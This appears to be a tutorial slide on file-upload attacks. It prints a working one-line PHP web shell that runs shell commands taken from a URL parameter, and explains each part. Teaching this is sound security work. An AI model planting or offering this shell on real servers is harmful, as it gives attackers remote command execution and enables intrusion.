

# Theory: what does contain a malicious file ?
The malicious file is a simple php script containing the following code:
<?php $cmd=$_GET['cmd']; system($cmd);?>
Explanations:
<?php ?> Basic open and close php tags
$cmd=$_GET['cmd']; save the cmd url parameter to the $cmd variable
system($cmd); execute and display the $cmd variable as a shell command